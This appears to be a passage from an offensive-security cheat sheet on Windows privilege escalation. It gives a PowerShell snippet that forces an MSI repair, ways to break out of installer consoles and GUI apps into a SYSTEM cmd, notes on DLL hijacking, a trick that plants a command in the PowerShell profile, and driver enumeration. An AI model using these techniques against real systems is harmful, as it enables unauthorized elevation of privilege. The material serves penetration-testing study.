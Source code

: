 ```ps1
$installed = Get-WmiObject Win32_Product
$string= $installed | select-string -pattern "PRODUCTNAME"
$string[0] -match '{\w{8}-\w{4}-\w{4}-\w{4}-\w{12}}'
Start-Process -FilePath "msiexec.exe" -ArgumentList "/fa $($matches[0])"
```

Common mistakes in MSI installers:

* Missing quiet parameters: it will spawn `conhost.exe` as `NT SYSTEM`. Use `[CTRL]+[A]` to select some text in it, it will pause the execution.
    * conhost -> properties -> "legacy console mode" Link -> Internet Explorer -> CTRL+O –> cmd.exe
* GUI with direct actions: open a URL and start the browser then use the same scenario.
* Binaries/Scripts loaded from user writable paths: you might need to win the race condition.
* DLL hijacking/search order abusing
* PowerShell `-NoProfile` missing: Add custom commands into your profile

    ```ps1
    new-item -Path $PROFILE -Type file -Force
    echo "Start-Process -FilePath cmd.exe -Wait;" > $PROFILE
    ```

## EoP - Insecure GUI apps

Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.

Example: "Windows Help and Support" (Windows + F1), search for "command prompt", click on "Click to open Command Prompt"

## EoP - Evaluating Vulnerable Drivers

Look for vuln drivers loaded, we often don't spend enough time looking at this:

* [Living Off The Land Drivers](https://www.loldrivers.io/) is a curated list of Windows drivers used by adversaries to bypass security controls and carry out attacks. The project helps security professionals stay informed and mitigate potential threats.
* Native binary: DriverQuery.exe

    ```powershell
    PS C:\Users\Swissky> driverquery.exe /fo table /si
    Module Name  Display Name           Driver Type   Link Date
    ============ ====================== ============= ======================
    1394ohci     1394 OHCI Compliant Ho Kernel        12/10/2006 4:44:38 PM
    3ware        3ware                  Kernel        5/18/2015 6:28:03 PM
    ACPI         Microsoft ACPI Driver  Kernel        12/9/1975 6:17:08 AM
    AcpiDev      ACPI Devices driver    Kernel        12/7/1993 6:22:19 AM
    acpiex       Microsoft ACPIEx Drive Kernel        3/1/2087 8:53:50 AM
    acpipagr     ACPI Processor Aggrega Kernel        1/24/2081 8:36:36 AM
    AcpiPmi      ACPI Power Meter Drive Kernel        11/19/2006 9:20:15 PM
    acpitime     ACPI Wake Alarm Driver Kernel        2/9/1974 7:10:30 AM
    ADP80XX      ADP80XX                Kernel        4/9/2015 4:49:48 PM
    <SNIP>
    ```
